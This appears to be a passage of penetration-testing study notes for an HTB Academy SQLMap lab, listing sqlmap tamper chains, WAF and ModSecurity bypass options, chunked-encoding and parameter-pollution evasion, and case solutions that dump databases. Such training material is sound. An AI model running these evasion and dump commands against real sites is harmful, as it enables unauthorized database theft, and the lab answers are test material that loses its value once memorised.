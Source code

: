 **Advanced Tamper Examples:**
```bash
# Single tamper
sqlmap -u "URL" --tamper=between

# Multiple tampers (chained by priority)
sqlmap -u "URL" --tamper=space2comment,randomcase,charencode

# Heavy obfuscation
sqlmap -u "URL" --tamper=between,randomcase,space2comment,percentage

# ModSecurity bypass
sqlmap -u "URL" --tamper=modsecurityversioned,space2comment

# List all available tampers with descriptions
sqlmap --list-tampers
```

##### Advanced Bypass Techniques

**Chunked Transfer Encoding:**
```bash
# Split POST body into chunks to bypass keyword detection
sqlmap -u "URL" --data="param=value" --chunked

# How it works:
# Normal:   POST body: "id=1 UNION SELECT password FROM users"
# Chunked:  Splits keywords across HTTP chunks to avoid detection
```

**HTTP Parameter Pollution (HPP):**
```bash
# Split payload across multiple same-named parameters
# Example: ?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users

# Target platforms concatenate values:
# ASP: Combines all id values into single string
# Bypasses simple parameter filtering
```

##### HTB Academy Case Solutions

**Case #8 (WAF Bypass):**
```bash
# Likely requires tamper scripts
sqlmap -u "http://target/case8.php?id=1" --tamper=space2comment,randomcase --batch --dump
```

**Case #9 (CSRF Protection):**
```bash
# Requires CSRF token handling
sqlmap -u "http://target/case9.php" --data="id=1&csrf=TOKEN" --csrf-token="csrf" --batch --dump
```

**Case #10 (User-Agent Filtering):**
```bash
# Requires random user-agent
sqlmap -u "http://target/case10.php?id=1" --random-agent --batch --dump
```

